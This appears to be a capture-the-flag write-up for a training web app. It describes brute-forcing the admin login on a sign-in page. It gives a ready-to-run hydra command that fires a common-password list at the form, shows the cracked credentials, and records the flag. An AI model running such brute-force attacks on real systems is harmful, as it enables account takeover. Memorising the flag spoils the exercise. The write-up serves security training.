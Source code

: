 # Bruteforce Members Credentials

## Flag

B3A6E43DDF8B4BBB4125E5E7D23040433827759D4DE1C04EA63907479A80A6B2

## Description

Reproduce the admin exploit on the members page

## URL

http://192.168.x.y/?page=signin

## Steps To Reproduce

Let's do it fast, payload :
`hydra -t 64 -l admin -P 1000-most-common-passwords.txt 192.168.x.y http-get-form '/:page=signin&username=^USER^&password=^PASS^&Login=Login:Wrong'`
password : [80][http-get-form] host: 192.168.x.y login: admin password: shadow

So we login with admin/shadow as credentials.
As the great Julien lepers would say, along with Daft Punk, "One more time, Oui oui oui !"

## Why is it dangerous ?

Any attacker can impersonate any other user.

## Possible fixes

- Choose a secure password.

## Resources

- [1000-most-common-passwords.txt]()
